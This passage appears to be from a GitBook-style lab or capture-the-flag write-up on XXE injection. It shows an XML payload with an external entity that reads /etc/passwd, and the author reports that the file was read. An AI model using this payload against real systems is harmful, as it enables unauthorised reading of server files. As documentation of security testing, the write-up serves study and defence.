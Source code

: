 <figure><img src=".gitbook/assets/image (408).png" alt=""><figcaption></figcaption></figure>

### XXE Injection

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/etc/passwd"> ]><root>
    <name>
        123
    </name>
    <search>
        &toreplace;
    </search>
</root>
```
{% endcode %}

And i was able to read the /etc/passwd file.

<figure><img src=".gitbook/assets/image (409).png" alt=""><figcaption></figcaption></figure>
